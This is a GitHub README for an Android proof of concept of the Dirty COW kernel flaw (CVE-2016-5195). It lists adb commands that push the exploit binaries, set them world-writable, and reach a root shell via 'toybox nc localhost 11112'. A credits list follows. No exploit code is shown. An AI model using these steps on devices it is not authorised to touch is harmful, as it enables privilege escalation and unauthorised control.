 # limited_shell_root

limited_shell_root CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

How to use.

Once compiled

adb push dirtycow /data/local/tmp/dirtycow

adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

adb shell chmod 0777 /data/local/tmp/*

adb shell

toybox nc localhost 11112

Shell is now active type ls

Credits

naikel

cloud1250000

timwr

jcadduono

brenns10

mrmazak

